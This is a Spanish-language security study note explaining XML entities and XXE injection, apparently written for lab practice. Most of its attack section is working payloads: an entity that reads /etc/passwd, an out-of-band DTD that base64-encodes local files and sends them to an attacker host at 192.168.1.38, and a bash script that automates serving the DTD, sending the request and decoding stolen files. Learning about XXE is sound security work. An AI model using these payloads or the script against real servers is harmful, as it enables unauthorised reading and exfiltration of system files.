 # ¿ Que es XML?

**XML** es un metalenguaje que permite definir lenguajes de marcas desarrollado por el World Wide Web Consortium utilizado para almacenar datos en forma legible.

XML (E**X**tensible **M**arkup **L**angague) se encarga de almacenar y transportar datos siguiendo una estructura de arbol.
![[xml.png]]

----

# Entidades 

Las **entidades** son una forma de representar a un elemento de datos , sin referenciar a los datos, esto en un documento XML.

Existen entidades **Genericas / Customizadas**, **Externas (XXE)**, **Predefinidas (&lt, &gt)]**. 

----

# ¿ Que es un XXE?

Un **XML External Entitiy Injection** o **XXE**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a revursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como apliacciones web o servicios web. 

Un ataque **XXE** mayormente implica la inyección en una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servodpr y puede resultar en la xposición de información sensible. Como en la mayoria de vulnerabilidades, esta vulnerabilidad se da cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe.

Con **XXE** no siempre se obtiene una exposición directa de información sensible en la respuesta, si no que aveces el atacante al igual qeu con las [[SQLI - (SQL Injections)]] el atacante debe ir a "**ciegas**" a través de tecnicas adicionales. Esto puede ser más lento y requiere más trabajo que una explotación directa. sin embargo, puede ser efectivo en casos donde el atacante tiene una idea geenral de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado. 

A si tambien, muchas veces el **XXE** puede ser utilizado como un vector de ataque para explotar una vulnerabilidad [[SSRF - (Server-Side Request Forgery)]] para escanear puertos internos.

----

# Ataque 

Por ejemplo, si tuvieramos la sig petición en XML: 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

Jugando con un **DTD** (Document Type Definition) y entidades Externas podemos explotar la vulnerabilidad

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&name;</email>
	<password>dobliuw123</password>
</root>
```

En este caso vemos que somos capaces de crear una entidad con `<!DOCTYPE foo [<!ENTITY name "dobliuw" >]>` y  hacer que el valor de tome en donde va el email con `&name`, en este caso es name por que la entidad definida se llama name

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd" >]>
<root>
	<name>dobliuw</name>
	<tel>11142131241</tel>
	<email>&myFile;</email>
	<password>dobliuw123</password>
</root>
```

Ahora, esto de llamar la entidad dentro de la estructura xml puede ser que no funcione, por lo que existe el concepto de **XEE OOB Blind (XML External Entity Out of Band a ciegas)** por lo que para explotarla podriamos ver si se logra hacer una petción http a nuestra maquina.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

En ese caso, podriamos intentar llamar a un archivo en concreto, por ejemplo un "malicious.dtd" con una estructura de entidades para dumpear archivos del sistema de la maquina, recibiendo los archivos como petición http con su cadena en base64. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
<root>
	<name>dobliuw</name>
	<tel>12314124</tel>
	<email>dobliuw@dobliuw.com</email>
	<password>dobliuw123</password>
</root>
```

#### Malicious.dtd:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>">
%eval;
%exfil; 
```

Y obviamente, explotando nuestras habilidades de atacante, más que claro esta que podriamos crearnos un script en python, bash o cualquier lenguaje para automatizar esto al punto de simplemente escribir un archivo a dumpear y que se dumpee. Asi como tambien es importante tener en cuenta que podriamos realizar un [[SSRF - (Server-Side Request Forgery)]] con las **XXE**. 

```shell
#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n\t[!] Quiting...\n\n"
	kill -9 $PID 
	wait $PID 2>/dev/null 
	/usr/bin/rm -f response
	/usr/bin/rm -f malicious.dtd 
	exit 1 
}

trap ctrl_c SIGINT

if [ $EUID -ne 0 ]; then 
	echo -e "\n\n\t[!] The scrip need runs like root :)\n\n"
else 
  python3 -m http.server 80 &>response &   # Levantamos en segundo plano un servidor http
  PID=$! # Guardamos en la variable PID el PID del proceso para al realizar ctrl c matarlo
  sleep 2 

  while true; do  
  
  echo -ne "\n[!] Introduce el archivo a leer: " && read -r file; # -r para que acepte espacios 
  
  evildtd="""
  <!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$file\">
  <!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.38/?file=%file;'>\">
  %eval;
  %exfil;""" # Estructura maliciosa para lograr el dumpeo de archivos 

  [[ -f "malicious.dtd" ]] && /usr/bin/rm malicious.dtd 
  echo "" > malicious.dtd
  echo $evildtd > malicious.dtd 


  # Automatizamos tambien la petición maliciosa
  /usr/bin/curl -s -X GET "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.1.38/malicious.dtd" > %myFile; ]>
  <root><name>dobliuw</name><tel>12314124</tel><email>dobliuw@dobliuw.com</email><password>dobliuw123</password></root>' &>/dev/null 

  echo -e "\n[+] $file : " && /usr/bin/cat response | /usr/bin/tail -n 1 | /usr/bin/grep -oP "/?file=\K[^.*]+" | /usr/bin/base64 -d
  done 
fi 
```

